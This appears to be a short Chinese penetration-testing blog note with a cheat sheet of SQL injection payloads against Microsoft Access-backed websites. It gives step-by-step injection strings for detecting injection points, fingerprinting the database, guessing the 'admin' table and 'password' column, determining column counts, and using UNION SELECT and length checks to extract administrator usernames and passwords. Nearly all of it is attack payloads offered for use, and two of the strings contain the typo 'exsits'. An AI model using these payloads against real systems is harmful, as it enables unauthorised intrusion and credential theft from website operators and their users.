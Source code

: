 ```yaml
---
title: Access数据库注入
date: 2018-10-26
copyright: true
tags: 渗透
categories: "渗透"
---
```


------

### 介绍
> 微软开发的小型数据库，全名：Microsoft Office Access

- 打开工具：
> 辐臣数据库浏览器，破障浏览器

------

<!-- more -->
### 判断注入

- ` ' `
- `and 1=1`
- `and 1=2`
- `or 1=2`
- `id=-xxx`

------

### 判断数据库类型

- `and exsits (select * from msysobjects)>0` （判断是否是access数据库，msysobjects是数据库中的一个表）
- `and exsits (select * from sysobjects)>0` （判断是否是SQLSever数据库）

------

### 判断数据库表

- `and exists (select * from admin)`

------

### 判断数据库表中的字段名

- `and exists (select admin.password from admin)`

------

### 判断字段长度

- ` order by 数字`
- 报错显示内容
> `and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin`
- 猜解密码
> 在报错输出内容中找到报错位置，将字段名与其替换，就会显示字段内容。如：`and 1=2 union select 1,2,admin,4,5,6,password,8,9 from admin`

------

### 判断账户密码长度

- `and (select len(admin) from admin)=5`如果返回正常，则账户长度是为5
- `and (select len(password) from admin)=5`如果返回正常，则密码长度是为5